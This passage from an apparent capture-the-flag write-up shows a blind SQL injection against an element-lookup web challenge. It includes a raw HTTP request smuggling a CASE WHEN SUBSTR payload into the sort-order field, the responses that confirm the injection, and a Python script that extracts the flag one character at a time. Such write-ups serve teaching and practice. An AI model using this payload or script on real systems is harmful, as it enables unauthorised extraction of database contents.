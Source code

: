 ```html
    <td style="width:10%">Na</td>
    <td>Sodium</td>
</tr>
...
```

The data was sorted by the atomic number, as we expected. We can test with an incorrect character at the same index to confirm that this exploit will work:

```http
POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 98

search=&order=CASE+WHEN+(SELECT+SUBSTR(flag,1,1)+FROM+flag)='Z'+THEN+atomic_number+ELSE+symbol+END
```

```html
...
<tr>
    <td style="width:20%">89</td>
    <td style="width:10%">Ac</td>
    <td>Actinium</td>
</tr>

<tr>
    <td style="width:20%">47</td>
    <td style="width:10%">Ag</td>
    <td>Silver</td>
</tr>

<tr>
    <td style="width:20%">13</td>
    <td style="width:10%">Al</td>
    <td>Aluminum</td>
</tr>
...
```

This time, the sort was by the `symbol`, which proves our injection worked properly. The next thing to do is to write a script to pull all the flag characters:

```python
#!/usr/bin/env python3

from requests import post
from string import ascii_lowercase

URL = 'http://challenge.nahamcon.com:30702'
ALPHABET = ascii_lowercase + '{}_'
INJECTION = "CASE WHEN (SELECT SUBSTR(flag,{},1) FROM flag)='{}' THEN atomic_number ELSE symbol END"

flag = ''
index = 1
while True:
    for char in ALPHABET:
        response = post(URL, data={ 'search': '', 'order': INJECTION.format(index, char) })
        # The first atomic symbol appears on index 74 of the response (split by newlines).
        # If that is Li (which has an atomic number of 3), then we sorted by atomic number.
        first_atomic_symbol = response.text.split('\n')[74]
        if 'Li' in first_atomic_symbol:
            flag += char
            index += 1
            break
    print(flag)
```
